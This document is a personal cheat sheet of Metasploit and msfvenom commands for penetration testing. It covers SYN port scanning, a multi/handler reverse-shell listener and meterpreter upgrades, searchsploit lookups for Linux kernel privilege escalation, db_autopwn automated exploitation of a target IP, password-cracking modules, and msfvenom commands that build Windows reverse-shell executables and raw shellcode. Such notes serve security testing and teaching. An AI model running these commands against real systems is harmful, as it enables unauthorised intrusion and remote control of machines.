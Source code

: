# msfconsole

                                       ___          ____
                                   ,-""   `.      < HONK >
                                 ,'  _   e )`-._ /  ----
                                /  ,' `-._<.===-'
                               /  /
                              /  ;
                  _          /   ;
     (`._    _.-"" ""--..__,'    |
     <_  `-""                     \
      <`-                          :
       (__   <__.                  ;
         `-.   '-.__.      _.'    /
            \      `-.__,-'    _,'
             `._    ,    /__,-'
                ""._\__,'< <____
                     | |  `----.`.
                     | |        \ `.
                     ; |___      \-``
                     \   --<
                      `.`.<
                        `-'

## set things globally

    setg RHOSTS x.x.x.x

## port scan

Make sure to connect to database first to store results, steps a bit further down!

    search portscan
    use auxiliary/scanner/portscan/syn
    set rhosts <rhost>
    set rport 1-65535
    set threads 10
    run

    # show found ports
    services

    # delete false positives
    services -d -p <start>-<end>

## create reverse listener

> helps to deal with latency

    use multi/handler
    set lport 6666
    exploit -j
    jobs

once pwn / connected:

    sessions -l
    sessions -i <id>

    # upgrade shell to meterpreter
    sessions -u <session_id>

    # kill all jobs
    jobs -k

## manual exploits using exploitdb

One may need to adapt something from the wild or simply use more than msf community has to offer:

    searchsploit privilege | grep -i linux | grep -i kernel | grep 3.13
    searchsploit <keyword1> <keyword2>

    # get full path (/usr/share/exploitdb/)
    searchsploit -p 33824
    locate linux/local/33824.c

## add custom exploit

**They have to be under exploits/ to be picked up:**

    /root/.msf4/modules/
    └── exploits
        └── myfolder
            └── myexploit.rb

Then, restart msfconsole & reload modules:

    msf6 > reload_all
    [*] Reloading modules from all module paths...

You can debug by looking at the logs:

    tail -n 100 /root/.msf4/logs/framework.log

## msf connect to database

    root@kali:~# systemctl start postgresql
    root@kali:~# msfdb init
    root@kali:~# msfdb db_status

## msf db missing role

    msf5 > db_connect msfdb init
    [-] Error while running command db_connect: Failed to connect to the Postgres data service: FATAL:  role "<user>" does not exist

    sudo -u postgres createuser -s $(whoami); createdb $(whoami)

## missing gems

    $ sudo msfconsole
    Unable to find a spec satisfying metasploit-framework (>= 0) in the set. Perhaps the lockfile is corrupted?                                               Run `bundle install` to install missing gems.

    $ cd /usr/share/metasploit-frame
    $ sudo gem install bundler
    $ sudo bundle install
    $ sudo gem update --system

## passwords

    msf6 > search auxiliary/analyze

    Matching Modules
    ================

       #  Name                                      Disclosure Date  Rank    Check  Description
       -  ----                                      ---------------  ----    -----  -----------
       0  auxiliary/analyze/apply_pot                                normal  No     Apply Pot File To Hashes
       1  auxiliary/analyze/crack_aix                                normal  No     Password Cracker: AIX
       2  auxiliary/analyze/crack_databases                          normal  No     Password Cracker: Databases
       3  auxiliary/analyze/crack_linux                              normal  No     Password Cracker: Linux
       4  auxiliary/analyze/crack_mobile                             normal  No     Password Cracker: Mobile
       5  auxiliary/analyze/crack_osx                                normal  No     Password Cracker: OSX
       6  auxiliary/analyze/crack_webapps                            normal  No     Password Cracker: Webapps
       7  auxiliary/analyze/crack_windows                            normal  No     Password Cracker: Windows
       8  auxiliary/analyze/modbus_zip                               normal  No     Extract zip from Modbus communication
       9  auxiliary/scanner/oracle/oracle_hashdump                   normal  No     Oracle Password Hashdump

## wordlists

    # kali default location
    /usr/share/metasploit-framework/data/wordlists

## automation

### autopwn

    wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
    cp db_autopwn.rb /root/.msf4/plugins
    msfconsole
    load db_autopwn
    # show all matching exploit modules
    db_autopwn -t <target-ip>
    db_autopwn -p -R great -e -q <target-ip>

# msfvenom

> metasploit standalone payload generator

**If you test the reverse shell with ```nc.exe -v -l -p 6666``` make sure it's not staged.**

    # generate the reverse shell for windows as an exe
    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f exe > shellcode.exe

    # generate the reverse shell for windows as a raw payload to reuse in memory or elsewhere
    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f raw > shellcode.raw
